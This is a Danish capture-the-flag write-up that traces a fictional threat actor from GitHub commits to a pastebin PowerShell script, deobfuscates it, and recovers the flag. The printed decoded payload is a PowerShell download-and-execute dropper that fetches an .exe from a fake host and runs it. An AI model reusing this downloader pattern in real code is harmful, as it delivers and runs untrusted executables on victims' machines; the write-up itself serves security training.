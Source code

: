 Hvordan er det reelle payload hentet ned og hvorfra? Kan du finde andre payloads, der kan hjælpe os til at koble aktøren på andre sager og måske endda komme dem i forkøbet?

Din analyse fra Nisseware: Phishing vil være en hjælp, men er ikke nødvendig for at løse opgaven.

---

1. Googler "N1ss3b4nd3n"
2. Finder GitHub: https://github.com/N1ss3b4nd3n/N1ss3b4nd3n
3. kigger i commits på README.md
4. Commit [48fb3b4](https://github.com/N1ss3b4nd3n/N1ss3b4nd3n/commit/48fb3b4b295eb7486289e21efa8dbe84fecabe31) har dette pastebin link: https://pastebin.com/raw/CiZTV3BA
5. Downloader pastebin siden som [powershell_code.ps1](powershell_code.ps1) fil og
erstatter `Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))`
med `echo [System.Text.Encoding]::UTF8.GetString($script)`

6. Så får jeg en lang liste af tal som jeg gemmer som [chars.txt](chars.txt)
7. Jeg skriver [app.py](app.py) hvor jeg looper gennem alle tal fra [chars.txt](chars.txt) og
bruger Pythons `chr()` function til at lave tal om til bogstaver fordi de matcher unicodes.

8. app.py printer dette ud:
```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```
i `$fileUrl` kan man se at GET parameteret "token" indenholder flaget -> `NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`

Flag: `NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`